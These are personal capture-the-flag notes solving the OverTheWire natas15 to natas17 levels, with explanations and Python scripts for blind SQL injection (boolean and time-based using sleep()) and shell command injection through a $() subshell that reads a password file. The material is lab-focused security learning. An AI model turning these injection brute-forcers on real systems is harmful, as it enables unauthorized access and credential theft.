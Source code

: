 # CTF Notes

### natas15
From the natas15 challenge. This is an SQL bruteforce where if the character exsists in the password, it will print "exists". Because of the output we can check whether or not we are correct through checkin if "exists" is in the content body of the response. using `requests` this can be done quite easily. The SQL query uses LIKE BINARY which is case-sensitive in order to get the correct values.

The second for loop in the script cycles 32 times (typical length of the password) and matches the exact places. %{}% matches if present in any position. {}% matches if its at the beginning (in this case to brute force the correct order). Therefore %{} would match if character was at the end.

```py
import requests
from requests.auth import HTTPBasicAuth

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""

for char in chars:
    input_data = {'username' : 'natas16" and password LIKE BINARY "%{}%" # '.format(char)}
    r = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth('natas15', '<censored>'), data = input_data)
    if "exists" in r.text:
        filtered += char

print(filtered)

for _ in range(0, 32):
    for char in filtered:
        input_data = {'username' : 'natas16" and password LIKE BINARY "{}%" # '.format(passwd + char)}
        r = requests.post("http://natas15.natas.labs.overthewire.org/index.php?debug", auth=HTTPBasicAuth('natas15', '<censored>'), data = input_data)
        if "exists" in r.text:
            passwd += char
            print(passwd)
            break
```
### natas16

Another brute force though not using SQL injection. There is a filter on common escape sequences (dunno what theyre called) but not on $(). This creates a subshell which can be used to run a command. There are 2 ways to solve this, one of them I do not really understand but oh well. I think prints the file to standard output `$(cat /etc/natas_webpass/natas17 > /proc/$$/fd/1)` $$ is the process id of the bash shell and /fd/1 is the standard ouput. So when running the command it is as if running the command not through a subshell.
 
The other method is a bruteforce. by grepping a single character through a subshell we can determine whether it exists in the password. By adding a word directly at the end of the sub-shell command we can determine whether the character is present by checking the response for that word. Example: `grep -i $(grep a /etc/natas_webpass/natas17)doomed dictionary.txt` if `a` was present in the password, it will result in `grep -i adoomed dictionary.txt` being executed by the server. `adoomed` is not a word and therefore would not match. If we use a script to cycle through each potential character and check everytime `doomed` is not present in the response, we would that the character is in the password. Script below.

```py
import requests
from requests.auth import HTTPBasicAuth

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""

for char in chars:
    input_data = {'needle': '$(grep {} /etc/natas_webpass/natas17)doomed'.format(char),'submit' : 'Search'}
    r = requests.get("http://natas16.natas.labs.overthewire.org/", auth=HTTPBasicAuth('natas16', '<censored>'), params=input_data)
    if "Output:\n<pre>\n</pre>" in r.text:
        filtered += char

print(filtered)

for _ in range(0, 32):
    for char in filtered:
        input_data = {'needle': '$(grep ^{} /etc/natas_webpass/natas17)doomed'.format(passwd + char),'submit' : 'Search'}
        r = requests.get("http://natas16.natas.labs.overthewire.org/", auth=HTTPBasicAuth('natas16', '<censored>'), params=input_data)
        if "Output:\n<pre>\n</pre>" in r.text:
            passwd += char
            print(passwd,'*' * int(32 - len(passwd)))
            break
```   

### natas17

source: https://www.abatchy.com/2016/12/natas-level-17
From the natas17 challenge. Bruteforce password through SQL injection though there is not output. If there is no output use the `AND sleep()` command in the query to control the response time. If the query was correct i.e char is in there, the `sleep()` will trigger and the response time will be slower. This can be checked in python using `requests`.

```py
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas17.natas.labs.overthewire.org/index.php?debug"
auth_user = "natas17"
auth_pass = "<censored>"

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""


for char in chars: # checks which characters are in the password
    # if the query is successful it will add a 1 second relay
    input_data = {"username": 'natas18" and password LIKE BINARY "%{}%" AND sleep(1) # '.format(char)}
    r = requests.post(url, auth=HTTPBasicAuth(auth_user, auth_pass), data=input_data)
    if "01." in str(r.elapsed): # "01." specifies that the response took 1 second, from sleep(), can increase if network is slower
        print(r.elapsed, char)
        filtered += char

```
